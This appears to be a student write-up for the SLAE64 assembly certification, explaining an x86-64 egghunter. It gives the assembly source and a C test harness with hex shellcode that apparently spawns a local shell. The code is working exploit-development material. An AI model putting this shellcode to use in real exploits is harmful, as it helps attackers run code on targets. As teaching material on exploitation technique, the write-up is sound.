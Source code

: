 # Egghunter

This assignment was about creating an Egghunter shellcode.

An Egghunter shellcode is used in situations in which you are not sure where exactly your shellcode was placed. The idea is that the egghunter scans the memory for the occurence of a specific value ( the egg ) and jumps to the shellcode that is placed behind the egg.

## Shellcode

In my implementation the egg is exactly 4 bytes long.

```
_start:
    add rsp, 22 ; Dont scan the egghunter shellcode as it contains the egg as well
_huntloop:
    inc rsp ; Increment the rsp so that we search for the egg byte-wise
    cmp dword [rsp], the_egg ; Does Rsp point to the egg?
    jne _huntloop ; If it does not point to the egg do an other iteration

    ; We found the gg \0/
    add rsp, 4 ; Jump over the 4 byte egg
    jmp rsp ; Jump to the shellcode
```

## Testing the egghunter

In order to test my shellcode I created the following C program:
```
    /// AAAA IS THE EGG
    char shellcode[] = "AAAA\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
    char trash[] = "ASFHA(USFHAIFJA)FH(*HAFIONIJ)*Y(&UNMIOPJHOHOIN:IUASD";
    char egghunter[] = "\x48\x83\xc4\x16\x48\xff\xc4\x81\x3c\x24\x41\x41\x41\x41\x75\xf4\x48\x83\xc4\x04\xff\xe4";

    (*(void(*)()) egghunter)();
```

As you can see I placed some trash values between the egghunter and the actuall shellcode to make it more realistic. When the eggunter shellcode is executed the stack looks like this:

```
+-----------------------+
|                       |
|       EGGHUNTER       | <-- RSP
|                       |
+-----------------------+
|                       |
|        TRASH          |
|                       |
+-----------------------+
|                       |
|         EGG           |
|                       |
+-----------------------+
|                       |
|      SHELLCODE        |
|                       |
|                       |
+-----------------------+
```

By incrementing the RSP we let point closer and closer to the egg until it points to it.
Then I add the egg size ( 4 bytes ) to the rsp so that the rsp points to the shellcode.

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581

